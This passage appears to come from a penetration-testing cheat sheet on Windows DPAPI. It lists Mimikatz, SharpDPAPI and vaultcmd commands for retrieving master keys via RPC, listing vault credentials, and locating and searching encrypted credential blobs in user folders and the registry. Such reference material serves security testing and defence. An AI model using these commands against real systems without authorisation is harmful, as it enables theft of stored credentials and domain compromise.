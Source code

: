 - If you are inside a session as the user, it's possible to ask the DC for the **backup key to decrypt the master keys using RPC**. If you are local admin and the user is logged in, you could **steal his session token** for this:

```bash
# Mimikatz
dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\SID\GUID" /rpc

# SharpDPAPI
SharpDPAPI.exe masterkeys /rpc
```


## List Vault

```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```

## Access DPAPI Encrypted Data

### Find DPAPI Encrypted data

Common users **files protected** are in:

- `C:\Users\username\AppData\Roaming\Microsoft\Protect\*`
- `C:\Users\username\AppData\Roaming\Microsoft\Credentials\*`
- `C:\Users\username\AppData\Roaming\Microsoft\Vault\*`
- Check also changing `\Roaming\` to `\Local\` in the above paths.

Enumeration examples:

```bash
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

[**SharpDPAPI**](https://github.com/GhostPack/SharpDPAPI) can find DPAPI encrypted blobs in the file system, registry and B64 blobs:

```bash
# Search blobs in the registry
search /type:registry [/path:HKLM] # Search complete registry by default

# Search blobs in folders
search /type:folder /path:C:\path\to\folder
search /type:folder /path:C:\Users\username\AppData\

# Search a blob inside a file
search /type:file /path:C:\path\to\file

# Search a blob inside B64 encoded data
search /type:base64 [/base:<base64 string>]
```
